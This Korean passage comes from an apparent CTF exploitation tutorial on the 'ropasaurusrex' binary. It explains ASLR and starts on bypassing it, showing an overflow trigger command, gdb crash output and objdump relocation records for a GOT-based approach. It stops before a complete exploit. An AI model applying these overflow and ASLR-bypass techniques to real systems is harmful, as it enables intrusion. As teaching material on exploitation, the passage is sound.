
여기서부터 조금 더 복잡해집니다. 한번 해봅시다!



## ASLR이 뭔가요?
{: #what-is-aslr}


ASLR(주소 공간 레이아웃 불규칙화(address space layout randomization))은
FreeBSD를 제외한 현대 시스템에 구현된 방어 기법으로, 라이브러리가 로드 되는
주소를 불규칙하게 바꿉니다. 그 예로, ropasaurusrex를 두 번 실행하고 `system()`의
주소를 알아내 봅시다.

``` sh
ron@debian-x86 ~ $ perl -e 'printf "A"x1000' | ./ropasaurusrex
Segmentation fault (core dumped)
ron@debian-x86 ~ $ gdb ./ropasaurusrex core
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/x system
0xb766e450 <system>:    0x890cec83

ron@debian-x86 ~ $ perl -e 'printf "A"x1000' | ./ropasaurusrex
Segmentation fault (core dumped)
ron@debian-x86 ~ $ gdb ./ropasaurusrex core
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/x system
0xb76a7450 <system>:    0x890cec83
```


`system()`의 주소가 `0xb766e450`에서 `0xb76a7450`으로 바뀐 것을 보세요. 이게
문제입니다!


## ASLR 정복
{: #defeating-aslr}


자, 우린 뭘 알고 있나요? 사실, 바이너리 자체는 ASLR이 적용되지 않아서,
유용하게도 거기 있는 모든 주소는 그대로 머물러 있다고 생각할 수 있습니다. 아주
중요하게도, 재배치(relocation) 테이블은 같은 주소에 남아있습니다.

``` sh
$ objdump -R ./ropasaurusrex

./ropasaurusrex:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049600 R_386_GLOB_DAT    __gmon_start__
08049610 R_386_JUMP_SLOT   __gmon_start__
08049614 R_386_JUMP_SLOT   write
08049618 R_386_JUMP_SLOT   __libc_start_main
0804961c R_386_JUMP_SLOT   read
```
